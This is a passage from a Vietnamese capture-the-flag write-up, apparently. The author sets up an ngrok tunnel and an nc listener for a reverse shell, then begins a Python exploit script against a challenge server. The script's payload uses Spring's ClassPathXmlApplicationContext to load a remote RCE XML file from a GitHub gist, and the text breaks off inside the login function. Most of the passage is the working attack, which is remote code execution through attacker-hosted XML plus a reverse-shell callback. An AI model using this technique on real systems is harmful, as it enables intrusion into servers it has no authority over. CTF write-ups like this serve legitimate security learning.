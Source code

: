 - Tôi sẽ thiết lập một con ngrok tcp
![alt text](image-43.png)
- Tới đây tôi sẽ thiết lập một trình lắng nghe nc để nhận revershell 
![alt text](image-44.png)
- Sau khi setup hết thì chúng ta cùng kick hoạt typeX. Tới đây đễ dễ quá trình tự động hóa tôi đã viết một tập lệnh python với cùng sự hỗ trợ của chatGPT.

```python
import requests
import re
import sys
import time

URL_CHALLENGE = "http://61.14.233.78:8082"
username = "vanphuc"
password = "vanphuc"
AVATAR_FILE_UPLOAD = "solve1.png"
PAYLOAD_RCE_XML = "https://gist.githubusercontent.com/Capt-Webk5/11d48a792046d7a19eb270768ca4f6ec/raw/40ded203fc77c32fc3ddb05196325e7079ff3e53/RCE.xml"
session = requests.session()
RCE_PAYLOAD = f'org.springframework.context.support.ClassPathXmlApplicationContext.new("{PAYLOAD_RCE_XML}")'

def get_csrf_token(path="/login"):
    r = session.get(URL_CHALLENGE + path)
    token = re.search(r'name="_csrf" value="([^"]+)"', r.text)
    if token:
        return token.group(1)
    meta = re.search(r'<meta name="_csrf" content="([^"]+)"', r.text)
    if meta:
        return meta.group(1)
    print("[x] CSRF Token Not Found!")
    sys.exit(1)

# Login
def login():
    csrf = get_csrf_token("/login")
```